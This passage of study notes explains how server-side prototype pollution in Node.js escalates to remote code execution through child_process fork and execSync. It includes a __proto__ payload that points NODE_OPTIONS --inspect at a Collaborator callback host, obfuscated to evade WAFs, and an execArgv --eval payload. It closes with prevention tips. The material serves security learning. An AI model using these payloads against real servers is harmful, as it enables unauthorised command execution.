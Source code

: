 ```
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

*The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames.* 


## Remote code execution via child_process.fork() 
Methods such as child_process.spawn() and child_process.fork() enable developers to create new Node subprocesses. The fork() method accepts an options object in which one of the potential options is the execArgv property. This is an array of strings containing command-line arguments that should be used when spawning the child process. If it's left undefined by the developers, this potentially also means it can be controlled via prototype pollution

```
"execArgv": [
    "--eval=require('<module>')"
]
```
In addition to fork(), the child_process module contains the execSync() method, which executes an arbitrary string as a system command. By chaining these JavaScript and command injection sinks, you can potentially escalate prototype pollution to gain full RCE capability on the server. 


## Remote code execution via child_process.execSync()
the previous example, we injected the `child_process.execSync()` sink ourselves via the `--eval` command line argument. In some cases, the application may invoke this method of its own accord in order to execute system commands.

Just like `fork()`, the `execSync()` method also accepts options object, which may be pollutable via the prototype chain. Although this doesn't accept an execArgv property, you can still inject system commands into a running child process by simultaneously polluting both the shell and input properties

* The `input` option is just a string that is passed to the child process's stdin stream and executed as a system command by `execSync()`. As there are other options for providing the command, such as simply passing it as an argument to the function, the input property itself may be left undefined.

*  The shell option lets developers declare a specific shell in which they want the command to run. By default, `execSync()` uses the system's default shell to run commands, so this may also be left undefined. 


## Preventing prototype pollution vulnerabilities
1. Sanitizing property keys
2. Preventing changes to prototype objects - 
    ```
    Object.freeze(Object.prototype);
    ```
3. Preventing an object from inheriting properties
    ```
        let myObject = Object.create(null);
        Object.getPrototypeOf(myObject);    // null
    ```

